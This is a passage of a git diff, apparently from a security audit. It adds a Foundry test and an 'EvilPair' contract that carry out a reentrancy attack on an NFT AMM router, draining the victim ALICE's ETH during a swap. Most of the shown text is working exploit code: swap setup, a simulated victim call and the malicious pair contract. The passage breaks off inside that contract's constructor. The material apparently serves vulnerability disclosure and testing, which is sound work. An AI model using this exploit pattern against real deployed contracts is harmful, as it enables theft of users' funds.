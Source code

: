 ```diff
+            sellOrders: sellOrders,
+            tokenRecipient: payable(TOKEN_RECIPIENT),
+            nftRecipient: NFT_RECIPIENT,
+            recycleETH: true
+        });
+
+        //8. We calculate the price of purchasing ALL NFTs from evil pair for given bonding curve
+        // ignore royalties for this calculation
+        // initial balance of ALICE (100 ether) - input Amount should be the final balance in ALICE account after swap
+        // by re-entering and placing a fake buy txn, we can drain all of ALICE's eth
+        (, , , uint256 inputAmount, ,) = ICurve(pair.bondingCurve()).getBuyInfo(uint128(spotPrice), uint128(delta), nftIds.length, 0, 0);
+
+        emit log_named_uint("input amount to purchase all NFTs ", inputAmount);
+        emit log_named_uint("Balance in Alice Account Before ", ALICE.balance);
+        emit log_named_uint("Balance in Pwner Account Before ", PWNER.balance);
+        emit log_named_uint("Balance in Router Account Before ", address(router).balance);
+
+        // 8. Perform the swap
+        vm.prank(ALICE);
+        router.swap{value: totalEthToSend}(swapOrder);
+
+        emit log_named_uint("Balance in Alice Account After ", ALICE.balance);
+        emit log_named_uint("Balance in Pwner Account After ", PWNER.balance);
+        emit log_named_uint("Balance in Router Account After ", address(router).balance);
+    }
 }
diff --git a/src/test/mixins/EvilPair.sol b/src/test/mixins/EvilPair.sol
new file mode 100644
index 0000000..8a8ad6d
--- /dev/null
+++ b/src/test/mixins/EvilPair.sol
@@ -0,0 +1,119 @@
+// SPDX-License-Identifier: AGPL-3.0
+pragma solidity ^0.8.0;
+
+import {console} from "forge-std/Test.sol";
+import {EvilPairReentrancyAttacker} from "./EvilPairReentrancyAttacker.sol";
+import {IERC721} from "@openzeppelin/contracts/token/ERC721/IERC721.sol";
+import {ICurve} from "../../bonding-curves/ICurve.sol";
+
+contract EvilPair {
+    uint256 expectedSpotPrice;
+    uint256 expectedDelta;
+    address public bondingCurve;
+    address payable attacker;
+    uint256 counter;
+    uint256 inputAmount;
+    address nftAddress;
+    address payable routerAddress;
+    bool isReentrancyAttack;
+
+   event evilpair_log_named_uint         (string key, uint val);
+   event evilpair_log_named_address      (string key, address val);
+
+    constructor(uint256 _expectedSpotPrice, uint256 _delta, address _bondingCurve, address payable _attacker, address _nft) {
+        expectedSpotPrice = _expectedSpotPrice;
+        expectedDelta = _delta;
+        bondingCurve = _bondingCurve;
+        attacker = _attacker;
+        nftAddress = _nft;
```